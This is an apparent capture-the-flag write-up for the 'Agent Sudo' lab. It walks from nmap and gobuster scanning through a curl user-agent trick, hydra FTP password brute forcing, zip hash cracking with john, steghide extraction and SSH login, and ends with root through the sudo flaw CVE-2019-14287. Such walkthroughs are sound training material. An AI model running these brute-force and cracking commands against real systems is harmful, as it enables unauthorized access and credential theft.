




# Agent Sudo

## Reconnaissance

IP address : 10.10.105.199

## Scanning & Enumeration

* Nmap Scanning

```shell
nmap -A -T -p- 10.10.105.199
```

the scan result is [here](nmap/all_port)
open port are :
number | service | version
--- |---| ---
21 | ftp | vsftpd 3.0.3
22 | ssh | OpenSSH 7.6p1
80 | http | Apache httpd 2.4.29

* Gobuster Directory Listing

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.105.199
```

didn't found any thing interesting

* Use your Code name ase user Agent
  
We tried A, B ... and found something interesting wih :

```shell
curl --user-agent "C" -L  http://10.10.105.199/
```



* FTP Brute Force
  
as we know chris password is week we can try to brute force it.

```shell
 hydra  -l chris -P /usr/share/wordlists/rockyou.txt  ftp://10.10.105.199
```

done  the password is cr**tal
we login in to ftp


we found some interesting [files](files)

  -- the text file contain interesting info about J password
  -- We run binwalk on cuttie.png and discoverd interesting stuff : it containt a zip file.

```shell
binwalk -e cutie.png
```

To extract all these [files](files/_cutie.png.extracted)

* crack zip with john
calculate the hash

```shell
zip2john 8702.zip > 8702.hash
```

crack it now

```shell
john 8702.hash
```

password : a**en
The extraction not work with unzip so we uze 7z

```shell
7z e 8702.zip
```

we sound a [message](files/_cutie.png.extracted/To_agentR.txt) with a b64 encrypted section , after decoding : Ar**51

*Decrypt the steg hide now

```shell
steghide extract -sf cute-alien.jpg
```

## Exploitation

* SSH Login

Now we already colleted some user credentials we can you it to login.



Now we can grab the user flag

### Let escalate privilege

* [CVE 2019-14287](https://www.exploit-db.com/exploits/47502)
  
The sudo version is vulnerable to CVE 2019-14287

after exploitation we got the root shell


